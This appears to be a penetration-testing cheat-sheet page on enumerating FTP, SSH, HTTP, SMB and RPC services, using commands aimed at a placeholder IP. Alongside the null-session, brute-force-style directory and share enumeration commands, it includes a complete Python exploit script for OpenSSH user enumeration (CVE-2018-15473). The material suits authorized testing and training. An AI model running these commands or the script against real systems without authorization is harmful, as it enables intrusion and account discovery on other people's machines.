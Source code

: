 # Network Services

## FTP

#### Anonymous login

{% code overflow="wrap" %}
```bash
ftp anonymous@10.10.10.10  # No password needed
```
{% endcode %}

#### Auto login

{% code overflow="wrap" %}
```bash
sshpass -p 'pass' ftp user@10.10.10.10
```
{% endcode %}

#### Browser URL

{% code overflow="wrap" %}
```bash
ftp://user:pass@10.10.10.10
```
{% endcode %}

#### SSL

{% code overflow="wrap" %}
```bash
lftp 10.10.10.10 -e "set ssl:verify-certificate no; set ftp:ssl-force true"
```
{% endcode %}

#### Download all files

{% code overflow="wrap" %}
```bash
wget -r --user='user' --password='pass' ftp://10.10.10.10
```
{% endcode %}

## SSH

#### Default credentials

Check for default credentials depending on the vendor:

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials)

#### Auto login

```
sshpass -p 'pass' ssh user@10.10.10.10
```

#### Private key login

{% code overflow="wrap" %}
```bash
ssh -i id_rsa user@10.10.10.10
```
{% endcode %}

#### Generate RSA keys

{% code overflow="wrap" %}
```bash
ssh-keygen -t rsa -f id_rsa
```
{% endcode %}

#### User enumeration - OpenSSH <7.7

Any version of OpenSSH up to 7.7 is vulnerable to user enumeration (CVE-2018-15473) if not patched. To exploit this vulnerability, we can use the following script:

<details>

<summary>ssh_user_enum.py</summary>

{% code overflow="wrap" fullWidth="true" %}
```python
#!/usr/bin/env python2

import argparse
import logging
import paramiko
import socket
import sys
from colorama import init, Fore
from threading import Thread, current_thread, enumerate as enumerate_threads

class SSHUserChecker:
    def __init__(self, target, port=22):
        self.target = target
        self.port = port

        # Remove paramiko logging
        logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

        # Assign functions to respective handlers
        self._old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = self._service_accept
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = self._invalid_username

    def _service_accept(self, *args, **kwargs):
        paramiko.message.Message.add_boolean = self._add_boolean
        return self._old_service_accept(*args, **kwargs)

    def _add_boolean(self, *args, **kwargs):
        pass

    def _invalid_username(self, *args, **kwargs):
        raise InvalidUsername()

    def check_user(self, username):
        sock = socket.socket()
        sock.connect((self.target, self.port))
        transport = paramiko.transport.Transport(sock)

        try:
            transport.start_client()
        except paramiko.ssh_exception.SSHException:
            print (Fore.RED + '\n[!] Failed to negotiate SSH transport for user:' + username)
            return False

        try:
            transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
        except InvalidUsername:
            return False
        except paramiko.ssh_exception.AuthenticationException:
            return True
        return False

class InvalidUsername(Exception):
    pass

def check_user_wrapper(user_checker, username, valid_users, invalid_users):
    if user_checker.check_user(username):
        valid_users.append(username)
    else:
        invalid_users.append(username)

def main():
    parser = argparse.ArgumentParser(description='SSH User Enumeration')
    parser.add_argument('-u', '--username', help="Username to check for validity.")
    parser.add_argument('-w', '--wordlist', help="Wordlist file containing usernames to check.")
    parser.add_argument('-p', '--port', type=int, default=22, help="Set port of SSH service")
    parser.add_argument('target', help="IP address of the target system")

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)

    args = parser.parse_args()

    user_checker = SSHUserChecker(args.target, args.port)
    valid_users = []
    invalid_users = []

    if args.wordlist:
        with open(args.wordlist, 'r') as f:
            for line in f:
                username = line.strip()
                t = Thread(target=check_user_wrapper, args=(user_checker, username, valid_users, invalid_users))
                t.start()
    else:
        if not args.username:
            parser.error("[!] You must specify either a username (-u) or a wordlist (-w).")
        else:
            t = Thread(target=check_user_wrapper, args=(user_checker, args.username, valid_users, invalid_users))
            t.start()

    # Esperar a que todos los hilos terminen
    for t in enumerate_threads():
        if t != current_thread():
            t.join()

    if args.wordlist:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid users:")
            for user in valid_users:
                print(Fore.GREEN + "{}".format(user))
        else:
            print(Fore.RED + "\n[-] No valid users found.")
    else:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid user: {}".format(args.username))
        else:
            print(Fore.RED + "\n[-] Invalid user: {}".format(args.username))

if __name__ == "__main__":
    main()
```
{% endcode %}

</details>

## HTTP/HTTPS

#### Web Technologies

{% code overflow="wrap" %}
```bash
whatweb http://10.10.10.10
```
{% endcode %}

{% embed url="https://www.wappalyzer.com/apps/" %}
I also recommend using this browser extension.
{% endembed %}

#### File and Directory Enumeration

{% code overflow="wrap" %}
```bash
nmap -p80,443 --script http-enum 10.10.10.10
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.10/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -w wordlist.txt http://10.10.10.10/FUZZ
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Good option for BurpSuite requests
ffuf -request request.txt -w wordlist.txt http://10.10.10.10/
```
{% endcode %}

#### Subdomain Enumeration

{% code overflow="wrap" %}
```bash
gobuster vhost -u http://target.com/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -H 'Host: FUZZ.target.com' -w wordlist.txt http://target.com/
```
{% endcode %}

#### User input

{% content-ref url="web-vulnerabilities/" %}
[web-vulnerabilities](web-vulnerabilities/)
{% endcontent-ref %}

## SMB

System enumeration with `enum4linux`

```bash
enum4linux -a [-u 'user' -p 'pass'] 10.10.10.10
```

#### Shares Enumeration

{% tabs %}
{% tab title="smbclient" %}
{% code overflow="wrap" %}
```bash
# null session
smbclient -N -L //10.10.10.10
# authenticated
smbclient -U 'user[%pass]' -L //10.10.10.10
# conect to a share
smbclient [-U 'user[%pass]'] //10.10.10.10/share
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code overflow="wrap" %}
```bash
# null session
smbmap -H 10.10.10.10
# authenticated
smbmap -u "user" -p "pass" -H 10.10.10.10
# recursive/non-recursive listing
smbmap [-u "user" -p "pass"] -R/-r share -H 10.10.10.10
```
{% endcode %}
{% endtab %}

{% tab title="netexec" %}
{% code overflow="wrap" %}
```bash
# null session
nxc smb 10.10.10.10 -u '' -p '' --shares
# authenticated
nxc smb 10.10.10.10 -u 'user' -p 'pass' --shares
# List share
nxc smb 10.10.10.10 [-u 'user' -p 'pass'] --share share
```
{% endcode %}
{% endtab %}

{% tab title="nmap" %}
{% code overflow="wrap" %}
```bash
nmap -p 139,445 --script "smb-enum-shares" 10.10.10.10
```
{% endcode %}
{% endtab %}
{% endtabs %}

## RPC

#### Automated Enumeration

{% code overflow="wrap" %}
```bash
rpcdump.py 10.10.10.10
```
{% endcode %}

#### Manual Enumeration

{% code overflow="wrap" %}
```bash
# null session
rpcclient -U "" -N 10.10.10.10
# authenticated
rpcclient -U 'user%pass' -N 10.10.10.10
# commands
rpcclient -U '[user%pass]' -N 10.10.10.10 -c 'command'
```
{% endcode %}

